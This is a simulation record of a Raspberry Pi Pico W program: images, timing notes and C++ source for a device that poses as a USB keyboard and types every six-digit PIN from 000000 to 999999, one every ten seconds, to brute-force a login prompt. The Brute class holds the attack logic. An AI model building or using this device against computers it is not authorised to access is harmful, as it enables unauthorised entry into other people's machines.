
Recording of a program running on a simulated Raspberry Pi Pico W. Shown: output pins drawn as LEDs (lit = HIGH). WiFi joins after 1.5 s; servers stay silent unless stated; USB keyboard and mouse output is not drawn; not simulated (calls return 0 or success): WifiCredentials.h; what the program prints to the serial monitor is not drawn.

Above: at 7.16 s.
At 12.7 s:

Timing chart, 0 to 21.7 s (numbered marks = the images above):


The program:

main.cpp
```cpp
#include "Arduino.h"
#include "Keyboard.h"
#include <ESP8266WiFi.h>
#include "HttpWebServer.h"
#include "utils.h"
#include "Brute.h"

#include "WifiCredentials.h"

char wifi_ssid[] = WIFI_SSID;
char wifi_password[] = WIFI_PASSWORD;

HttpWebServer httpServer;
Brute brute;

void setup()
{
  short_blink();
  // initialize LED digital pin as an output.
  pinMode(LED_BUILTIN, OUTPUT);
  Keyboard.begin();

  WiFi.mode(WIFI_STA);
  WiFi.begin(wifi_ssid, wifi_password);

  short_blink();
  Serial.print("Connecting to WiFi.");
  while (WiFi.status() != WL_CONNECTED) {
    delay(1000);
    Serial.print(".");
  }
  Serial.println("");
  short_blink();
  Serial.print("IP: "); Serial.println(WiFi.localIP());

  MDNS.begin("rpipicow");
  httpServer.setup();

  MDNS.addService("http", "tcp", 80);

  brute.incrementationIsRunning = true;

  delay(5000);
}

void loop()
{
  if(brute.incrementationIsRunning) {
    brute.increment();
  }
  httpServer.update();
  MDNS.update();

  delay(1000);
}
```

Brute.cpp
```cpp
#include "Brute.h"

Brute::Brute() = default;

void Brute::increment(){
  if(this->currentPassword <= 999999) {
    String password = String(currentPassword);
    while (password.length() < 6) {
      password = "0" + password; // If the number has less than 6 digits, prepend 0s to it
    }
    Keyboard.println(password);

    short_blink();

    delay(10000);

    currentPassword++; // Increase the password by 1
  } else {
    incrementationIsRunning = false;
  }
}
```

Brute.h
```cpp
#include "Arduino.h"
#include "utils.h"
#include "Keyboard.h"
#ifndef MAC_HID_BRUTE_BRUTE_H
#define MAC_HID_BRUTE_BRUTE_H


class Brute {
  public:
    Brute();
    void increment();
    bool incrementationIsRunning = false;
    int currentPassword = 0;
};


#endif //MAC_HID_BRUTE_BRUTE_H
```

HttpWebServer.h
```cpp
#include "Arduino.h"
#include <WiFi.h>
#include <WiFiClient.h>
#include <WebServer.h>
#include <LEAmDNS.h>
#include <HTTPUpdateServer.h>

#ifndef MAC_HID_BRUTE_SETUPWEBSERVER_H
#define MAC_HID_BRUTE_SETUPWEBSERVER_H

class HttpWebServer {
  public:
    HttpWebServer();
    void setup();
    void update();
  private:
    WebServer server;
    void handleRoot();
//    static void notFound(AsyncWebServerRequest *request);
};

#endif //MAC_HID_BRUTE_SETUPWEBSERVER_H
```

defines.h
```cpp
#ifndef MAC_HID_BRUTE_DEFINES_H
#define MAC_HID_BRUTE_DEFINES_H

#ifndef LED_BUILTIN
#define LED_BUILTIN 13
#endif

#endif //MAC_HID_BRUTE_DEFINES_H
```

utils.cpp
```cpp
#include "utils.h"

void short_blink() {
  digitalWrite(LED_BUILTIN, HIGH);
  delay(100);
  digitalWrite(LED_BUILTIN, LOW);
  delay(100);
}
```

utils.h
```cpp
#include "Arduino.h"
#include "defines.h"
#ifndef MAC_HID_BRUTE_UTILS_H
#define MAC_HID_BRUTE_UTILS_H

void short_blink();

#endif //MAC_HID_BRUTE_UTILS_H
```

Source omitted: HttpWebServer.cpp (77912 bytes)

Measured:
- by itself, LED (LED_BUILTIN): goes LOW 0.10 s, HIGH 0.10 s, LOW 5.1 s, 10 × (HIGH 0.10 s, LOW 11.1 s), HIGH 0.10 s, then LOW
